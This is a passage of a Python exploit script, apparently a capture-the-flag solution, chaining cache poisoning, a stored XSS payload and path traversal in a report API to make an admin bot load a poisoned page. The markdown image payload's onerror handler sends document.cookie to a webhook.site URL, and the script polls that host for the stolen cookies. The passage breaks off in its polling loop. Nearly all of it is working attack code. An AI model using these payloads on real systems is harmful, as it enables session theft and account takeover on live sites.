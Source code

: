 ```
		print("Something went wrong while logging in!")
		sys.exit()
	return authCookie


class WEBHOOK:
	def __init__(self):
		self.url = 'http://webhook.site'
		try:
			resp = requests.post('{}/token'.format(self.url), json={'actions': True, 'alias': 'xss-poc', 'cors': False}, timeout=15)
			self.token = resp.json()['uuid']
		except:
			print('[!] Couldn\'t reach webhook.site, please make sure we have internet access!')
			sys.exit()

	def get_cookies(self):
		try:
			resp = requests.get('{}/token/{}/request/latest'.format(self.url,self.token), timeout=15)
			cookies = resp.json()['query']['x']
		except:
			return False
		return cookies

	def destroy(self):
		requests.delete('{}/token/{}'.format(self.url,self.token), timeout=15)


print('[+] Signing up a new account..')
register()

print('[~] Logging in to acquire session cookie..')
cookie = login()

print('\n[+] Preparing a webook URL for cookie exfiltration..')
webhook = WEBHOOK()

print('\n[+] Poisoning the cache for thread preview endpoint..')
payload = {
	'title': 'nine mountains and eight seas',
	'content': f"![Uh oh...](https://www.example.com/image.png\"onerror=\"document.images[0].src='//webhook.site/{webhook.token}?x='+document.cookie)",
	'cat_id': 2
}
headers = {
	'Host': '127.0.0.1:1337',
	'X-Forwarded-For': '127.0.0.1'
}
requests.post(f'{hostURL}/threads/preview?__poisoned__', data=payload, cookies={'session': cookie}, headers=headers)


print('[~] Sending path traversal payload to the report API')
payload = {
	'post_id': '../threads/preview?__poisoned__'
}
requests.post(f'{hostURL}/api/report', json=payload, cookies={'session': cookie})

print('[+] Waiting for the XSS to trigger and exfiltrated cookies to arrive..')
while True:
	cookies = webhook.get_cookies()
	if cookies:
```